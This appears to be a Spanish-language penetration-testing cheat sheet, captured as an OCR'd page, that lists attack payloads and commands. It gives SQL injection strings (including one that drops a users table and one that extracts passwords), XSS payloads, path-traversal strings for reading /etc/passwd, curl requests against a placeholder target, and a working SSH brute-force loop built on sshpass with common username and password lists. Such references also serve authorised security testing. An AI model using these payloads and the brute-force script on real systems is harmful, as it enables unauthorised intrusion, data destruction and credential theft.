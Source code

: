 ### ** DETECCIÓN DE VULNERABILIDADES**

#### **Inyección SQL**
```bash
# Payloads básicos
echo "' OR '1'='1"
echo "'; DROP TABLE users; --"
echo "' UNION SELECT username,password FROM users --"

# Test manual con curl
curl -d "username=' OR '1'='1&password=test" http://target.com/login
```

#### **Cross-Site Scripting (XSS)**
```bash
# Payloads básicos
echo "<script>alert('XSS')</script>"
echo "<img src=x onerror=alert('XSS')>"
echo "<svg onload=alert('XSS')>"

# Test en parámetros URL
curl "http://target.com/search?q=<script>alert('XSS')</script>"
```

#### **Local File Inclusion (LFI)**
```bash
# Payloads comunes
echo "../../../etc/passwd"
echo "....//....//etc/passwd"
echo "..%2f..%2f..%2fetc%2fpasswd"

# Test con curl
curl "http://target.com/page.php?file=../../../etc/passwd"
```

### ** ANÁLISIS DE AUTENTICACIÓN**

#### **Fuerza Bruta SSH**
```bash
# Lista de usuarios comunes
echo -e "root\nadmin\nuser\ntest\nguest" > users.txt

# Lista de contraseñas comunes
echo -e "password\n123456\nadmin\nroot\ntest" > passwords.txt

# Test manual
for user in $(cat users.txt); do
    for pass in $(cat passwords.txt); do
        sshpass -p "$pass" ssh -o ConnectTimeout=5 "$user@target" exit 2>/dev/null && echo "FOUND: $user:$pass"
    done
done
```
